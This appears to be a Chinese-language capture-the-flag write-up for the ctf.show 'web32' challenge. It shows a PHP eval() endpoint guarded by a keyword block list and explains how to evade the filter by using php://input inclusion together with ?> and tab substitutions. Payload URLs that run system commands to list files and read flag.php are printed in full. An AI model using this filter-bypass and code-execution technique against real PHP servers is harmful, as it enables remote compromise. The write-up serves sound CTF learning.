


# web32

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

拦截了点，空格，单引号，\` ，`;` 和左括号

空格可以使用 `Tab` 来替换

单引号和双引号在这里可以互相替换

常见的 GET 传参参数都被拦截了，可以考虑采用 php 伪协议，例如 `php:input` 传入被拦截的关键词

`;` 可以使用 `?>` 来替换

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("ls -lh"); ?>
```



接下来就简单了

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("cat flag.php"); ?>
```


